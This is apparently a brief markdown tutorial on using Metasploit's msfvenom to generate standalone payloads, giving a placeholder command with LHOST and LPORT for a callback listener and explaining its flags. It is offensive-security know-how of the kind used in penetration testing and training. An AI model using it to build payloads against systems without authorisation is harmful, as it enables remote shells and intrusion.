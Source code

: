# Msfvenom Practical Guide

## Generating Standalone Payloads and Listeners

Msvenom is a powerful tool in the Metasploit framework used for payload generation. It allows you to create payloads for various platforms.

### Basic Payload Generation

To generate a basic payload for a specific platform, use the following command:

```bash
msfvenom -p [payload] -f [format] LHOST=[your_IP] LPORT=[port] -o [output_filename]
```
Replace [payload] with the desired payload.
Specify the format with -f (e.g., exe, apk, etc.).
Set your IP with LHOST and the desired port with LPORT.
Save the output with -o [output_filename].

